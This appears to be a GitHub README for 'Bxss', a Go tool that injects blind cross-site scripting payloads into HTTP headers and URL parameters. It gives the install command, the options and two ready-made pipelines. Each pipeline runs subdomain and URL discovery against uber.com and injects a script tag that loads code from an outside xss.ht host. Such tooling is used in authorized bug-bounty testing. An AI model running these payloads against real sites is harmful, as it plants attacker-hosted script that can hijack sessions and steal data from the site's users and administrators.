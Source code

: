 ![alt text](https://www.secjuice.com/content/images/2018/09/blinded-drib.jpg)
##### Version 1.0

# 😎 Bxss 😎
**A Blind XSS Injector tool**



[![Image from Gyazo](https://i.gyazo.com/61c052718748373ff2d267280e2e69cb.gif)](https://gyazo.com/61c052718748373ff2d267280e2e69cb)

### Features

- Inject Blind XSS payloads into custom headers
- Inject Blind XSS payloads into parameters
- Tool Chaining
- Really fast
- Easy to setup


### Install


**`$ go get -u github.com/ethicalhackingplayground/bxss`**

### Arguments
```


          ____
         |  _ \
         | |_) |_  _____ ___
         |  _ <\ \/ / __/ __|
         | |_) |>  <\__ \__ \
         |____//_/\_\___/___/


        -- Coded by @z0idsec --
  -appendMode
        Append the payload to the parameter
  -concurrency int
        Set the concurrency (default 30)
  -header string
        Set the custom header (default "User-Agent")
  -parameters
        Test the parameters for blind xss
  -payload string
        the blind XSS payload
        
```

[![Image from Gyazo](https://i.gyazo.com/c3f18487b015767f011d0845409c6e5b.gif)](https://gyazo.com/c3f18487b015767f011d0845409c6e5b)


### Blind XSS In Parameters
**`$ subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters`**

### Blind XSS In X-Forwarded-For Header

**`$ subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"`**



**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

